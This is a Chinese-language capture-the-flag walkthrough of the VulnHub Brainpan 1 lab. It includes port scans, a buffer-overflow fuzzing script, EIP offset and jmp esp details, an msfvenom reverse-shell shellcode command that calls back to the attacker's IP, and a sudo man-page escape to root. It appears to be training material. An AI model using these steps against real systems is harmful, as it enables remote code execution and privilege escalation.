_**tips：**_

_**缓冲区溢出（构造 eip 指向 esp、  esp 构造 shellcode）**_

_**vlum-nmap漏洞探测**_

_**wfuzz目录爆破**_

_**msf-pattern**_

_**badchars坏字节**_

_**Immunity Debugger ->mona.py**_

_**Msfvenom构造shellcode!/bin/bash（提权）**_


## 端口探测
锁定靶机 ip




#### 全端口扫描


发现两个端口  9999 10000


##### UDP 扫描



##### TCP 扫描
```plain
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sT -sV -sC -O -p9999,10000 192.168.17.144
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-01 13:54 EDT
Nmap scan report for 192.168.17.144
Host is up (0.00083s latency).

PORT      STATE SERVICE VERSION
9999/tcp  open  abyss?
| fingerprint-strings: 
|   NULL: 
|     _| _| 
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_| 
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-title: Site doesn't have a title (text/html).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.95%I=7%D=6/1%Time=683C93E0%P=x86_64-pc-linux-gnu%r(NUL
SF:L,298,"_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\n_\|_\|_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|\x20\x20\x20\x20_\|_\|_\|\
SF:x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x
SF:20\x20\x20_\|_\|_\|\x20\x20_\|_\|_\|\x20\x20\n_\|\x20\x20\x20\x20_\|\x2
SF:0\x20_\|_\|\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x2
SF:0\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x2
SF:0\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|\x20\x20\x20\x20_\|\
SF:x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x2
SF:0_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x2
SF:0_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|_\|_\|\x20\x2
SF:0\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20_\
SF:|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|_\|\x20\x20\x20\x20\x20\x2
SF:0_\|_\|_\|\x20\x20_\|\x20\x20\x20\x20_\|\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20_\|\n\n\[________________________\x20WELCOME\x20TO\x20BRAINPAN\x2
SF:0_________________________\]\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ENTER\x2
SF:0THE\x20PASSWORD\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20>>\x20");
MAC Address: 00:0C:29:86:CE:1D (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.15 seconds

```


##### vlum 扫描
Nmap 的漏洞扫描将针对目标运行该工具的默认漏洞扫描脚本。这些对于查找可利用的常见漏洞非常有用。




### 10000 端口
浏览器访问：192.168.17.144：10000


#### 目录爆破：
wfuzz 工具




进入 bin 目录下



下载到本地







### 9999 端口





nc 尝试：



有可以输入的地方，但是还不知道如何利用


### brainpan.exe
win10 虚拟机运行后，kali 连接






**根据这个提示，copied * to buffer，猜测，是否有缓冲区溢出漏洞？**


**确定溢出大小 -> 控制 eip**

**-> 寻找 jmp esp -> 测试坏字符**

**-> 生成shellcode -> 添加适量的nop**

**-> 开始攻击**


139 个字符都不溢出




#### 测试脚本
写一个自动测试溢出的脚本

```python
#!/usr/bin/python
import socket
import time
import sys

size = 100

while True:
    try:
        print "\n[+] Send evil buffer %s bytes" % size 
        buffer = 'A' * size
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("192.168.17.144",9999))
        s.send(buffer)
        s.close()

        size += 100
        time.sleep(3)
    except:
        print("\n[+] Could not connect.")
        sys.exit()


```


成功运行脚本，最多能发 700 字节




#### EIP


注意 **EIP** 的地址：35724134（EIP 始终指向当前正在执行的指令之后的那条指令的内存地址。CPU 根据 EIP 的值从内存中读取指令并执行，执行完毕后 EIP 会自动递增（或根据跳转指令修改）以指向下一条指令。）






精确的匹配在 524 这个位置上（A 储存在 EDX 寄存器中）

重新构造 exp



发送 exp，查看寄存器信息



说明找到的 eip 是正确的（利用的话，在 eip 之后就可以存放 shellcode，把我们的反弹信息放i进去）

目前 C 仅有 72 字节，正常 payload 的大小为** 350-400 字节**


那么如何利用呢？


#### 扩容 esp
修改 exp 中 C 的大小为 500，发送 exp

接受之后，在栈中查看 esp 的大小（0x005FFAE4-0x005FF910 = 0x1D4）468 个字节







468 字节！

大小合适！

说明 esp 的空间可以为我所用！

##### 验证 esp 中有哪些坏字符
（c 语言程序中 0x00 默认就是坏字节）

GitHub：badchars



```plain
┌──(kali㉿kali)-[~/VulnHub/Brainpan1/badchars]
└─$ ./badchars -f ruby
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" +
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" +
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" +
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" +
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" +
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" +
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" +
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" +
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" +
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" +
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" +
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" +
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" +
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" +
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" +
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)


```


修改 exp




发送 exp，查看 esp 内存中的值



可以看到 01-FF 都在内存中连续，正确的展示出来了，说明该程序中**没有坏字节**

若内存中本该出现 01-FF 的内存中出现了 00 或者间断的字节内容，就说明存在坏字节


#### 构造 EIP 指向 ESP
每次 esp 的地址是不固定的，那么我们需要使用 EIP 来指向一个 esp 的地址


拿到 jmp esp 的操作码




##### Immunity Debugger ->mona.py
无 rebase 无 safeSEH 无 ASLR 无 CFG 无 NX 无 OS Dll




通过字节码在 exe 找 jmp esp 的地址



地址：0x311712f3       "\xff\xe4"（jmp 的字节码）

###### 构造 EIP 的内容：
在 exp 中的 EIP 位置，构造0x311712f3 地址，小端序-->"\xf3\x12\x17\x31"




#### 构造 ESP 的 shellcode


Msfvenom（教程：[https://blog.csdn.net/qq_48985780/article/details/121441548](https://blog.csdn.net/qq_48985780/article/details/121441548)）

-p 指定要使用的 payload

-b 设定坏字节

-e 指定编码器：shikata_ga_nai（绕过和免杀效果好。）

-f c 指定输出格式为 c 代码

LHOST 要写 kali 的 ip 地址

```plain
┌──(kali㉿kali)-[~/VulnHub/Brainpan1]
└─$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.169.17.136 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c

```

构造 exp：




最终 exp




### windows 获取反弹 shell
kali：sudo nc -lvnp 443 开启监听

windows：运行 brainpan.exe 程序

kali：发送 exp


成功 getshell！




## brainpan.ova
linux 系统

ip：192.168.17.144


生成 linux 的 payload（这个程序运行之后是通过 9999 端口交互的，并且基于内存的利用都是通用的，可以忽略操作系统的概念，还有别的巴拉巴拉....）




针对靶机的 exp：



### 成功反弹 shell（低权限）！





美化 shell：

```plain
python -c "import pty;pty.spawn('/bin/bash')"
```


## 提权


```plain


puck@brainpan:/home/puck$ sudo -l
sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
    
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util
sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]


puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util manual ls    
sudo /home/anansi/bin/anansi_util manual ls
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)
LS(1)                            User Commands                           LS(1)

NAME
       ls - list directory contents

SYNOPSIS
       ls [OPTION]... [FILE]...

DESCRIPTION
       List  information  about  the FILEs (the current directory by default).
       Sort entries alphabetically if none of -cftuvSUX nor --sort  is  speci‐
       fied.

       Mandatory  arguments  to  long  options are mandatory for short options
       too.

       -a, --all
              do not ignore entries starting with .

       -A, --almost-all
              do not list implied . and ..

       --author
 Manual page ls(1) line 1 (press h for help or q to quit)!/bin/bash
!/bin/bash（经验！！！）

root@brainpan:/usr/share/man# 

root@brainpan:/home/puck/web# ip -a
ip -a
Option "-a" is unknown, try "ip -help".
root@brainpan:/home/puck/web# uname -a
uname -a
Linux brainpan 3.5.0-25-generic #39-Ubuntu SMP Mon Feb 25 19:02:34 UTC 2013 i686 i686 i686 GNU/Linux
root@brainpan:/home/puck/web# 


```


